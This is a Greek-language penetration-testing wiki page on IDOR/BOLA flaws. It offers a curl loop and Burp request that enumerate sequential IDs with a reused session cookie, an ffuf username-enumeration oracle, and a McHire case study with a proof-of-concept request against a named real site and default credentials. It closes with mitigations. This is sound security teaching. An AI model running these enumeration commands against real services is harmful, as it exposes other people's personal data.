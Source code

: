 # IDOR (Insecure Direct Object Reference)

{{#include ../banners/hacktricks-training.md}}

IDOR (Insecure Direct Object Reference) / Broken Object Level Authorization (BOLA) εμφανίζεται όταν ένα web ή API endpoint αποκαλύπτει ή δέχεται έναν identifier που μπορεί να ελεγχθεί από τον χρήστη και ο οποίος χρησιμοποιείται **directly** για να προσπελάσει ένα εσωτερικό αντικείμενο **without verifying that the caller is authorized** να προσπελάσει/τροποποιήσει αυτό το αντικείμενο. Η επιτυχής εκμετάλλευση συνήθως επιτρέπει οριζόντια ή κάθετη αύξηση προνομίων, όπως την ανάγνωση ή τροποποίηση δεδομένων άλλων χρηστών και, στη χειρότερη περίπτωση, πλήρη takeover λογαριασμού ή μαζική εξαγωγή δεδομένων.

---
## 1. Εντοπισμός πιθανών IDORs

1. Αναζητήστε **παραμέτρους που αναφέρονται σε αντικείμενο**:
* Path: `/api/user/1234`, `/files/550e8400-e29b-41d4-a716-446655440000`
* Query: `?id=42`, `?invoice=2024-00001`
* Body / JSON: `{"user_id": 321, "order_id": 987}`
* Headers / Cookies: `X-Client-ID: 4711`
2. Προτιμήστε endpoints που **διαβάζουν ή ενημερώνουν** δεδομένα (`GET`, `PUT`, `PATCH`, `DELETE`).
3. Σημειώστε πότε οι identifiers είναι **αύξοντες ή προβλέψιμοι** – αν το ID σας είναι `64185742`, τότε το `64185741` πιθανότατα υπάρχει.
4. Εξερευνήστε κρυφές ή εναλλακτικές ροές (π.χ. *"Paradox team members"* link στις σελίδες login) που μπορεί να αποκαλύψουν επιπλέον APIs.
5. Χρησιμοποιήστε μια **authenticated low-privilege session** και αλλάξτε μόνο το ID **κρατώντας το ίδιο token/cookie**. Η απουσία σφάλματος authorization είναι συνήθως ένδειξη IDOR.

### Quick manual tampering (Burp Repeater)
```
PUT /api/lead/cem-xhr HTTP/1.1
Host: www.example.com
Cookie: auth=eyJhbGciOiJIUzI1NiJ9...
Content-Type: application/json

{"lead_id":64185741}
```
### Αυτοματοποιημένη απαρίθμηση (Burp Intruder / curl loop)
```bash
for id in $(seq 64185742 64185700); do
curl -s -X PUT 'https://www.example.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-H "Cookie: auth=$TOKEN" \
-d '{"lead_id":'"$id"'}' | jq -e '.email' && echo "Hit $id";
done
```
---

### Error-response oracle for user/file enumeration

Όταν ένα download endpoint δέχεται τόσο ένα username όσο και ένα filename (π.χ. `/view.php?username=<u>&file=<f>`), μικρές διαφορές στα μηνύματα σφάλματος συχνά δημιουργούν ένα oracle:

- Μη υπάρχον username → "User not found"
- Λανθασμένο filename αλλά έγκυρη επέκταση → "File does not exist" (μερικές φορές εμφανίζει επίσης διαθέσιμα αρχεία)
- Λανθασμένη επέκταση → validation error

Με οποιαδήποτε επαληθευμένη συνεδρία, μπορείτε να fuzz την παράμετρο username κρατώντας ένα αβλαβές όνομα αρχείου και να φιλτράρετε με βάση το string "user not found" για να ανακαλύψετε έγκυρους χρήστες:
```bash
ffuf -u 'http://target/view.php?username=FUZZ&file=test.doc' \
-b 'PHPSESSID=<session-cookie>' \
-w /opt/SecLists/Usernames/Names/names.txt \
-fr 'User not found'
```
Μόλις εντοπιστούν έγκυρα ονόματα χρήστη, ζητήστε συγκεκριμένα αρχεία απευθείας (π.χ., `/view.php?username=amanda&file=privacy.odt`). Αυτό το μοτίβο συχνά οδηγεί σε μη εξουσιοδοτημένη αποκάλυψη των εγγράφων άλλων χρηστών και σε credential leakage.

---
## 2. Real-World Case Study – McHire Chatbot Platform (2025)

Κατά την αξιολόγηση της πύλης προσλήψεων **McHire** που τροφοδοτείται από Paradox.ai, εντοπίστηκε το ακόλουθο IDOR:

* Endpoint: `PUT /api/lead/cem-xhr`
* Authorization: cookie συνεδρίας χρήστη για **οποιονδήποτε** test account εστιατορίου
* Body parameter: `{"lead_id": N}` – 8-ψήφιος, **ακολουθιακός** αριθμητικός αναγνωριστικός

Μειώνοντας το `lead_id`, ο δοκιμαστής απέκτησε πλήρες PII τυχαίων υποψηφίων (όνομα, e-mail, τηλέφωνο, διεύθυνση, προτιμήσεις βάρδιας) καθώς και ένα consumer **JWT** που επέτρεψε session hijacking. Η απαρίθμηση του εύρους `1 – 64,185,742` αποκάλυψε περίπου **64 εκατομμύρια** εγγραφές.

Proof-of-Concept request:
```bash
curl -X PUT 'https://www.mchire.com/api/lead/cem-xhr' \
-H 'Content-Type: application/json' \
-d '{"lead_id":64185741}'
```
Σε συνδυασμό με **default admin credentials** (`123456:123456`) που παρείχαν πρόσβαση στον test account, η ευπάθεια οδήγησε σε κρίσιμη, εταιρικής κλίμακας διαρροή δεδομένων.

---
## 3. Επιπτώσεις του IDOR / BOLA
* Horizontal escalation – ανάγνωση/ενημέρωση/διαγραφή δεδομένων **άλλων χρηστών**.
* Vertical escalation – χρήστης με χαμηλά προνόμια αποκτά admin-only functionality.
* Μαζική διαρροή δεδομένων αν οι ταυτοποιητές είναι ακολουθιακοί (π.χ., applicant IDs, invoices).
* Κατάληψη λογαριασμού με κλοπή tokens ή επαναφορά κωδικών άλλων χρηστών.

---
## 4. Μετριασμοί & Καλές Πρακτικές
1. **Εφαρμόστε εξουσιοδότηση σε επίπεδο αντικειμένου** σε κάθε αίτημα (`user_id == session.user`).
2. Προτιμήστε **έμμεσα, μη προβλέψιμα αναγνωριστικά** (UUIDv4, ULID) αντί των auto-increment IDs.
3. Πραγματοποιείτε την εξουσιοδότηση **από την πλευρά του server**, μην βασίζεστε σε κρυφά πεδία φορμών ή UI controls.
4. Εφαρμόστε **RBAC / ABAC** ελέγχους σε ένα κεντρικό middleware.
5. Προσθέστε **rate-limiting & logging** για να εντοπίζετε την εξακρίβωση/αρίθμηση των IDs.
6. Δοκιμάζετε ασφάλεια κάθε νέο endpoint (unit, integration, and DAST).

---
## 5. Εργαλεία
* **BurpSuite extensions**: Authorize, Auto Repeater, Turbo Intruder.
* **OWASP ZAP**: Auth Matrix, Forced Browse.
* **Github projects**: `bwapp-idor-scanner`, `Blindy` (bulk IDOR hunting).



## Αναφορές
* [McHire Chatbot Platform: Default Credentials and IDOR Expose 64M Applicants’ PII](https://ian.sh/mcdonalds)
* [OWASP Top 10 – Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
* [How to Find More IDORs – Vickie Li](https://medium.com/@vickieli/how-to-find-more-idors-ae2db67c9489)
* [HTB Nocturnal: IDOR oracle → file theft](https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html)
{{#include ../banners/hacktricks-training.md}}
